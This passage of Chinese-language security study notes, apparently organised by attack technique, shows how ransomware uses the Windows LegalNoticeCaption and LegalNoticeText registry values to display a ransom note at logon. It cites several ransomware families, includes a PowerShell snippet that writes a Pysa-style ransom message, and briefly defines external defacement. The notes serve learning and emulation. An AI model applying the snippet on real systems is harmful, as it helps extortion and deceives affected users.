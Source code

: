 
> ![image-20231121223817123](http://cdn.ayusummer233.top/DailyNotes/202311212238258.png)

---

#### 配置 LegalNoticeCaption 和 LegalNoticeText 注册表键值以显示赎金信息

通过配置注册表鍵 `HKLM\SOFTWARE\Micosoft\WindowsCurrentVersion\Policies\System\LegalNoticeCaption` 和 `HKLM\SOFTWARE\Micosoft\WindowsCurrentVersion\Policies\System\LegalNoticeText` 在系统启动时向用户显示赎金信息

> [SynAck Ransomware](https://www.trendmicro.com/vinfo/es/security/news/cybercrime-and-digital-threats/synack-ransomware-leverages-process-doppelg-nging-for-evasion-and-infection), 
> [Grief Ransomware](https://redcanary.com/blog/grief-ransomware/), 
> [Maze Ransomware](https://cyware.com/research-and-analysis/maze-ransomware-a-deadly-combination-of-data-theft-and-encryption-to-target-us-organizations-8f27),
> [Pysa Ransomware](https://www.cybereason.com/blog/research/threat-analysis-report-inside-the-destructive-pysa-ransomware),
> [Spook Ransomware](https://community.fortinet.com/t5/FortiEDR/Threat-Coverage-How-FortiEDR-protects-against-Spook-Ransomware/ta-p/204226),
> [DopplePaymer Ransomware](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/Dopplepaymer&threatId=-2147221958),
> [Reedemer Ransomware](https://blog.cyble.com/2022/07/20/redeemer-ransomware-back-action/),
> [Kangaroo Ransomware](https://www.bleepingcomputer.com/news/security/the-kangaroo-ransomware-not-only-encrypts-your-data-but-tries-to-lock-you-out-of-windows/)


```powershell
$orgLegalNoticeCaption = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption).LegalNoticeCaption
$orgLegalNoticeText = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText).LegalNoticeText
$newLegalNoticeCaption = "PYSA"
$newLegalNoticeText = "Hi Company, every byte on any types of your devices was encrypted. Don't try to use backups because it were encrypted too. To get all your data contact us:xxxx@onionmail.org"
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption -Value $newLegalNoticeCaption -Type String -Force
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText -Value $newLegalNoticeText -Type String -Force
```

- `LegalNoticeCaption` 用于设置标题
- `LegalNoticeText` 用于设置内容

设置后需要重启系统才能生效

![image-20231121232545467](http://cdn.ayusummer233.top/DailyNotes/202311212325546.png)


---

### External Defacement - 外部篡改

攻击者可能会破坏组织外部的系统，试图传递消息、恐吓或以其他方式误导组织或用户。外部损坏最终可能导致用户不信任系统并质疑/怀疑系统的完整性。

例如:

- 网站篡改
- 电子邮件篡改
- 社交媒体篡改

---